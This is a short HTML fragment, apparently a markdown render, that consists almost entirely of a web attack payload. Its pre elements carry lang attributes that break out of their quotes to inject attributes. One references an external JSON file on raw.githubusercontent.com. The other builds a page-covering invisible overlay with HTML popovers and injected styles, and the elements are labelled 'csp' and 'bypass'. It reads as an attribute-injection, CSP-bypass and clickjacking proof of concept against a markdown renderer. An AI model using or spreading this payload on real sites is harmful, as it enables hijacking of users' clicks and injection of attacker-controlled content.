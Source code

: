 <a>
  <pre lang='/" data-ga-click="https://raw.githubusercontent.com/smartaptlimited/new/main/aaa.json"'>
    <code lang="wavedrom">csp</code>
  </pre>
  <pre lang='/" id="stage1" style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;" data-triggers="click" data-toggle="popover" data-html="true" data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb" data-content="ggg">
    <code lang="wavedrom">bypass</code>
  </pre>
</a>

